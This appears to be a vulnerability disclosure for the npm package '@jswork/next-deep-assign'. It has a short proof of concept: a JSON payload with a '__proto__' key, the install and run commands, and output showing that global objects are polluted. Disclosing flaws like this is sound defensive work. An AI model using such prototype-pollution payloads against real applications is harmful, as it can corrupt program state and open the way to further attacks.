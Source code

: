 # Description

`@jswork/next-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nextDeepAssign = require("@jswork/next-deep-assign")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
nextDeepAssign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i @jswork/next-deep-assign # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

